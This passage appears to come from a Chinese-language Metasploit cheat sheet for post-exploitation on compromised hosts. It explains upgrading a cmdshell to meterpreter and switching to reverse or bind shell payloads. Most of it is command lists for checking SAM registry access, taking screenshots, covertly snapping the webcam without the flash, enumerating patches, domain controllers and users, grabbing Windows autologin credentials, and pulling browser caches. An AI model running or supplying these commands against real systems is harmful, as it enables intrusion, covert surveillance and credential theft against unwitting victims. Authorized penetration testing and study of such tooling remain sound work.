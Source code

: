 **cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

---

### 信息收集

**查看权限**
```bash
getuid          # 查看当前用户
load powershell
powershell_shell
PS > Get-Acl -Path HKLM:\SAM\SAM | Format-List          # 查看 Users 或 Everyone 是否有 SAM 注册表项的读取权限
```

**截屏**
```bash
use espia
screenshot
screengrab
```

**摄像头**
```bash
webcam_snap -i 1 -v fales                               # 不开闪光灯拍照
```

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登录过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登录的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控

run post/linux/busybox/enum_hosts                       # 读取/var/hosts
run post/windows/gather/enum_hostfile                   # 读取 %windir%\system32\drivers\etc\hosts
```
